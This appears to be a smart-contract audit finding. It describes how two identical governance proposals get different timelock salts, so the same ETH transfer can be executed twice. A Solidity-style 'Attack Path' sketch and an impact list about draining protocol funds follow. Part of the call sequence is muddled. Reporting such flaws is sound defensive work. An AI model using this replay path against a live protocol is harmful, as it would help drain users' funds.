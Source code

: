 Attack Path
Attacker creates first proposal:
```solidity 
// First proposal to transfer 1 ETH
proposalId1 = governance.propose(
    [attacker],     // target
    [1 ether],      // value
    [""],           // calldata
    "First Transfer"
);
Creates second identical proposal:

// Second proposal with same parameters
proposalId2 = governance.propose(
    [attacker],     // Same target
    [1 ether],      // Same value 
    [""],           // Same calldata
    "Second Transfer"
);
Different hashes generated:

// First operation hash
salt1 = keccak256(abi.encode(proposalId1));
opHash1 = timelock.hashOperationBatch(
    targets, values, calldatas, bytes32(0), salt1
);
​
// Second operation hash (different due to proposalId)
salt2 = keccak256(abi.encode(proposalId2)); 
opHash2 = timelock.hashOperationBatch(
    targets, values, calldatas, bytes32(0), salt2
);
Both proposals can be executed:

// Execute first transfer
governance.execute(proposalId1);
// Wait timelock delay
governance.execute(proposalId1);  // Transfers 1 ETH
​
// Execute second transfer
governance.execute(proposalId2);
// Wait timelock delay  
governance.execute(proposalId2);  // Transfers another 1 ETH
```

### Impact
Protocol funds can be drained through repeated transfers

Critical operations can be executed multiple times

Governance decisions can be replayed

No limit on number of replays possible
